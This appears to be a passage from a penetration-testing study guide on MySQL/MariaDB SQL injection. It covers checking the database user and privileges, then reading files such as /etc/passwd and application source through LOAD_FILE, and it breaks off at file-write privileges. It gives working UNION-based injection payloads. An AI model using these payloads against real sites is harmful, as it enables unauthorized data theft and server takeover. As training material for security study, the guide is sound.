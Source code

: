 #### DB user

If the user has DBA privileges, then it is much more probable that they will have file-read privileges. If the user does not, then we have to check our privileges to see what we can do.

1. Determine which users we are within the database.

```
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

`cn' UNION SELECT 1, user(), 3, 4-- -`

`cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -`

#### User privileges

Test if we have super admin privileges with the following query:

`SELECT super_priv FROM mysql.user`

`cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`

`cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'" -- -`

#### LOAD_FILE

The `LOAD_FILE()`` function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the /etc/passwd file:

`SELECT LOAD_FILE('/etc/passwd');`

We will only be able to read the file if the OS user running MySQL has enough privileges to read it.

This vulnerability can be used to leak source code as well.

Example:

We know that the current page is search.php. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

`cn' UNION SELECT 1, LOAD_FILE("/var/www/html/conn.php"), 3, 4-- -`

## Writting files

When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

### Write File Priveleges
